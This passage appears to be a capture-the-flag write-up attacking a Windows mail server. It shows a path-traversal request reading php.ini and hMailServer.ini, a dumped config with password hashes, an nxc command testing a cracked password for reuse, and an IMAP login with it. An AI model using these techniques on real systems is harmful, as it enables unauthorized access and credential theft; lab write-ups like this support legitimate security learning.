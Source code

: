 
Using this I included `php.ini` file:

```bash
GET /download.php?file=..%2F..%2FProgram%20Files%2FPHP8.3.3%2Fphp.ini HTTP/1.1
```

![image.png](image%2012.png)

As we are running hMailServer I tried including `hMailServer.ini` file from:

`\Program Files (x86)\hMailServer\Bin\hMailServer.INI`

![image.png](image%2013.png)

![image.png](image%2014.png)


I checked this for password reuse:

```bash
sudo nxc smb $IP -u administrator -p 'homenetworkingadministrator' --shares
```

![image.png](image%2015.png)

Then I tried logging in IMAP server using these credentials and it worked:

![image.png](image%2016.png)

![image.png](image%2017.png)

We don’t have any emails in IMAP or POP3.

Let’s perform SMTP user enum and identify who could configure hMailServer so that we can use this password against their account.

```bash
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1

```
